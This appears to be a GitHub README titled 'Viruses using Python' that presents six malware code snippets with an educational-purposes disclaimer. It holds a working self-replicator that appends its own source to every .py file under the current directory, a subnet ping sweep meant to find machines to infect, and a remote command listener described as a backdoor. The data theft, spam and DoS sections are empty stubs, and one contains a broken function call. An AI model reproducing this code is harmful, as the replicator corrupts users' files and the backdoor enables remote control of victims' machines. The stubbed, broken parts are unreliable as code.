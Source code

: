 # Viruses using Python

## Functionalities

***1. Basic Virus Structure***
This code demonstrates a basic virus structure, including how to replicate itself, how to hide itself from detection, and how to execute malicious code.

``` py
# Basic Virus Structure in Python
import os

def replicate():
    virus_code = open(__file__).read()
    target_files = []
    for root, dirs, files in os.walk(os.getcwd()):
        for file in files:
            if file.endswith('.py'):
                target_files.append(os.path.join(root, file))
    for file in target_files:
        with open(file, 'a') as f:
            f.write(virus_code)

def hide():
    pass # TODO: add code for hiding the virus

def execute():
    pass # TODO: add code for executing malicious code

if __name__ == '__main__':
    replicate()
    hide()
    execute()
```

***2. Network Propagation***
This code demonstrates how to propagate the virus over a network, using a worm-like technique. The virus scans the network for vulnerable machines and infects them automatically.

``` py
# Network Propagation in Python
import socket
import subprocess
import os

def scan_network():
    ip = socket.gethostbyname(socket.gethostname())
    ip_parts = ip.split('.')
    for i in range(1, 255):
        target_ip = f"{ip_parts[0]}.{ip_parts[1]}.{ip_parts[2]}.{i}"
        if target_ip == ip:
            continue
        result = subprocess.call(['ping', '-n', '1', '-w', '500', target_ip])
        if result == 0:
            infect(target_ip)

def infect(target_ip):
    # TODO: add code for infecting the target machine
    pass

if __name__ == '__main__':
    scan_network()
```

***3. Remote Access***

This code demonstrates how to create a backdoor into a victim's computer, allowing remote access and control.

``` py
# Remote Access in Python
import socket
import subprocess
import os

def connect():
    s = socket.socket()
    s.bind(('0.0.0.0', 1234))
    s.listen(1)
    conn, addr = s.accept()
    print(f"Connection established with {addr[0]}")
    while True:
        command = input("Enter command: ")
        conn.send(command.encode())
        if command == 'exit':
            break
        output = conn.recv(1024)
        print(output.decode())

def run_command(command):
    result = subprocess.check_output(command, shell=True)
    return result

if __name__ == '__main__':
    connect()
```

***4. Data Theft***
This code demonstrates how to steal sensitive data from a victim's computer, including passwords, credit card details, and other private information.

``` py
# Data Theft in Python
import os

def steal_passwords():
    # TODO: add code for stealing passwords
    pass

def steal_credit_cards():
    # TODO: add code for stealing credit card details
    pass

def steal_private_info():
    # TODO: add code for stealing private information
    pass

if __name__ == '__main__':
    steal_password
```

***5.Email Spamming***
This code demonstrates how to send spam emails from a victim's computer, using their email account and address book.

``` py
# Email Spamming in Python
import smtplib
import email.message
import os

def spam_emails():
    # TODO: add code for spamming emails
    pass

if __name__ == '__main__':
    spam_emails()
```

***6. Denial of Service (DoS) Attack***
This code demonstrates how to launch a DoS attack on a target website, rendering it inaccessible to users.

``` py

# DoS Attack in Python
import socket
import time
import os

def launch_dos_attack():
    # TODO: add code for launching DoS attack
    pass

if __name__ == '__main__':
    launch_dos_attack()

```
# Conclusion
The code and commands provided in this repository are for educational purposes only. They should not be used for any malicious purposes, as doing so is illegal and can result in severe legal consequences. The author of this repository is not responsible for any damage or harm caused by the use of this code or commands. Use at your own risk.
